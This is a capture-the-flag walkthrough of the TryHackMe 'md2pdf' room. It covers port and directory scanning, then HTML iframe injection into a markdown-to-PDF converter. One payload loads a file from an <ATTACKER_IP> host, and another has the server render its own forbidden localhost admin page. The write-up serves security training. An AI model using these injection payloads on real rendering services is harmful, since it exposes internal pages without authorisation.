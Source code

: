```yaml
---
layout: post
title: TryHackMe/Easy/md2pdf
abbrlink: e06e937a25a2473994843ea099312d1e
tags:
  - html injection
  - web
categories:
  - Labs
  - TryHackMe
  - 1. Easy
  - md2pdf
date: 1718697130980
updated: 1718703485878
---
```


<https://tryhackme.com/r/room/md2pdf>

# Scenario

Hello Hacker!

TopTierConversions LTD is proud to announce its latest and greatest product launch: MD2PDF.

This easy-to-use utility converts markdown files to PDF and is totally secure! Right...?

# Enumeration

## \[+] 10.10.5.77 - md2pdf.thm

We will add the target IP address and a domain name to our `/etc/hosts` file. Using `sudo sh -c`, executes the entire command as a subshell as `root` where we will then use `echo` to create a new line with `\n` followed by our target IP and the domain name we give it.

```sh
sudo sh -c 'echo "\n10.10.5.77 md2pdf.thm" >> /etc/hosts'
```

Then `export` the IP address to the environment variable `RHOSTS` so I can use `$RHOSTS` instead of typing the IP address every time.

```sh
export RHOSTS=10.10.5.77
```

First I run a quick scan with [rustscan](https://github.com/RustScan/RustScan) and a longer [nmap](https://nmap.org/) stealth scan with `-Pn` mode enabled which will treat all hosts as online which helps find other hosts that block ICMP packets:

```sh
rustscan -a $RHOSTS --ulimit 5000 -b 4500 -t 2000 --range 1-65535 -- -sC -sV
sudo nmap -v -Pn -sS -p- -A --min-rate=1000 -T4 $RHOSTS -oN nmap.txt
```

## \[+] Port 80 - HTTP

### \[-] md2pdf.thm

Here we have a web application that takes a [MD (Markdown)](https://www.markdownguide.org/basic-syntax/) file and converts it into a [PDF](https://en.wikipedia.org/wiki/Portable_Document_Format) file:

![aa024e7a57d6e978aa9ad8eefd81f5bf.png](/resources/1ea19e68dd884736a60b07ed3b3f6e46.png)

We can try testing for injection by entering some arbitary HTML or JavaScript and see how the application reacts.

After some testing I found that it was possible to execute code through [Cross Frame Scripting](https://owasp.org/www-community/attacks/Cross_Frame_Scripting) where we create an [iFrame](https://www.w3schools.com/tags/tag_iframe.asp) which allows us to embed a document within a document.

I created a test image file named "`test.png`" then hosted it using Python:

```sh
python3 -m http.server 8888
```

Then back on the web application we inject this piece of code and press "Convert to PDF":

```html
<iframe src="http://<ATTACKER_IP>:8888/test.png"  height="1000" width="1000"></iframe>
```

![386a37df10e58e9aa11558bf468bcd2a.png](/resources/4b577c15405a42c1b895c505ed34493b.png)

After the PDF has been generated it should have our test image injected into the document:

![c6f6135072b8e9f5a758f269c0ebc301.png](/resources/b90a9fd46fb24e1bb80f16d37ef3c1f3.png)

There doesn't seem to be much else here, so let's try directory/file fuzzing using [feroxbuster](https://github.com/epi052/feroxbuster) with this [wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-medium-directories.txt):

```sh
feroxbuster -u http://md2pdf.thm/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x json,txt,js,xml -s 200,301,302,403 -o p-80-www-ferox.txt
```

### \[-] md2pdf.thm/admin

If we try to access this page we get a 403 forbidden error:

![b840539724d913d86ae5e8bf146fce81.png](/resources/ca76bb705c0e4a0c9f5cfc42ad24baa2.png)

Going back to the MD2PDF web application, if we altered the URL to point to this internal page instead, we can inject it into the PDF document:

```html
<iframe src="http://localhost:5000/admin" height="1000" width="1000"></iframe>
```

![a653805002f050e5d3d49f7382e7fcee.png](/resources/43d49f6c595e4b71945bcd988c18b6d0.png)

After the web application processes our request we should get the flag:

![89a837556c6eb4142aadf08fb9a8c1e3.png](/resources/9d521df65ac14c44b4fce9093f71a564.png)
